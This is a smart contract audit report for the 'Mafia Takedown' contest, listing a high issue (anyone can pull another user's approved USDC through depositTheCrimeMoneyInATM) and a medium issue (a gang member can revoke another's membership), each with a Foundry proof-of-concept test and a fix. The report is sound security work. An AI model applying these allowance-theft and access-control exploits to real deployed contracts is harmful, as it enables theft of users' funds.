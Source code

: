 ![](../logo.png)
<img src="../img/mafia-takedown.png" alt="Mafia Takedown" height="320" />

# Security Report for the Mafia Takedown CodeHawks FirstFlight Contest \*_shadow audit_

## High Issues

### [H-1] Lack of access control in `Laundrette::depositTheCrimeMoneyInATM()` allows anyone to move USDC from another user's wallet

**Description:**

In the `depositTheCrimeMoneyInATM()` function, there are 3 parameters to be filled;
- `account`
- `to`
- `amount`

an external caller can set the `account` parameter to be that of another user, and transfer USDC from that account.

**Impact:**

A malicious user can call the `depositTheCrimeMoneyInATM()` function, set the `account` parameter to be any address with remaining USDC allowance, and set `to` to be himself, to steal USDC from `account` address. 

**PoC:**

Add the following test to the `Laundrette.t.sol` test file:

```solidity
    function test_can_steal_user_usdc() public {
        address chile = makeAddr("chile");
        address merlin = makeAddr("attacker");

        vm.prank(godFather);
        usdc.transfer(chile, 100e6);
        vm.prank(chile);
        usdc.approve(address(moneyShelf), 100e6); // chile grants approval to moneyshelf, but doesn't deposit into ATM

        vm.prank(merlin);
        laundrette.depositTheCrimeMoneyInATM(chile, merlin, 100e6); // merlin deposits usdc from chile's account because
            // there is still allowance

        assert(usdc.balanceOf(address(moneyShelf)) == 100e6);
        assert(crimeMoney.balanceOf(merlin) == 100e6);

        //unaware chile tries to deposit money into the ATM
        vm.prank(chile);
        vm.expectRevert(); // it fails
        laundrette.depositTheCrimeMoneyInATM(chile, chile, 100e6);
    }
```

**Recommended Mitigation:**

Add a `require()` in `depositTheCrimeMoneyInATM()` function that ensures that the address inputted in the `account` parameter is the same as the `msg.sender`.

```diff
    function depositTheCrimeMoneyInATM(address account, address to, uint256 amount) external {
+       require(account == msg.sender, "You cannot transfer money from this account modafucka!!!");
        moneyShelf.depositUSDC(account, to, amount);
    }
```

## Medium Issues

### [M-1] Malicious gangmember can revoke the gang membership of another gang member by calling `Laundrette:quitTheGang()` on said gang member

**Description**:

`quitTheGang()` function allows any gang member to revoke their gang membership and quit the gang, but because of no checks, a malicious gang member can revoke the gang membership of another gang member.

**PoC:**

Add the following test to the `Base.t.sol` test file:

```solidity
    function addToGang(address _account) internal {
        vm.prank(godFather);
        laundrette.addToTheGang(_account);
    }
```

And then this, to the `Laundrette.t.sol` test file:

```solidity
    function test_can_kick_out_another_gang_member() public {
        address chile = makeAddr("chill_gang_member");
        address merlin = makeAddr("malicious_gang_member");

        // chile and merlin become gang members
        joinGang(chile);
        addToGang(merlin);

        assert(kernel.hasRole(chile, Role.wrap("gangmember")) == true);
        assert(kernel.hasRole(merlin, Role.wrap("gangmember")) == true);

        // merlin kicks chile out of the gang
        vm.prank(merlin);
        laundrette.quitTheGang(chile);

        assert(kernel.hasRole(chile, Role.wrap("gangmember")) == false);
    }
```

**Recommended Mitigation:**

Add a `require()` check to ensure that the caller of the `quitTheGang()` function must also be the inputted `account` parameter, of be the `godFather`.

```diff
    function quitTheGang(address account) external onlyRole("gangmember") {
+       require(msg.sender == account || msg.sender == kernel.executor(), "Modafucka!!! You have no right to call this function");
        kernel.revokeRole(Role.wrap("gangmember"), account);
    }
```
